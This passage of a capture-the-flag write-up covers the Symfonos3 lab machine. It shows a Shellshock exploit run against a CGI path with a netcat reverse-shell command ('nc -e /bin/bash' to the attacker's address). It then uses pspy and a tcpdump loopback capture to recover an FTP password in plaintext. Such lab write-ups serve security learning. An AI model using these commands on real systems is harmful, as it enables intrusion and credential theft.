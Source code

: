 Searched ``shellshock`` in Searchsploit and it displays some exploits. I choosed [BASH](https://www.exploit-db.com/exploits/34766)
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos3/8.png)

According to the example

>php 34766.php -u http://192.168.1.102/cgi-bin/underworld/ -c "nc -e /bin/bash 192.168.1.103 1234"

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos3/9.png)

Got ``cerberus`` shell.

Uploaded my Linux Enumeration Script but didn't found anything useful. So uploaded my ``Pspy`` to see anything running on the background.


>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

There is a python script running on the background ``ftpclient.py`` sending some data to ftp. We don't have permission to view the python script. Since ``ftp`` is Plain text we can capture those packets and view them in wireshark.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos3/10.png)

We can use ``tcpdump``

>tcpdump - dump traffic on a network

```
cerberus@symfonos3:/tmp$ tcpdump -D
1.enp0s17 [Up, Running]
2.any (Pseudo-device that captures on all interfaces) [Up, Running]
3.lo [Up, Running, Loopback]
4.nflog (Linux netfilter log (NFLOG) interface)
5.nfqueue (Linux netfilter queue (NFQUEUE) interface)
6.usbmon1 (USB bus number 1)
```
>-D 	Print the list of the network interfaces available on the system and on which tcp‐dump  can  capture packets.

```
$ tcpdump -i lo -w tcp.pcap
tcpdump -i lo -w tcp.pcap
tcpdump: listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
```
> - -w 
> - -i Listen on interface

Run this for few moment. And Started Python server in the machine and downloaded the ``ftp.pcap`` to my machine.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos3/11.png)

I used Wireshark to see whats there and found User ``Hades`` Password.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos3/12.png)
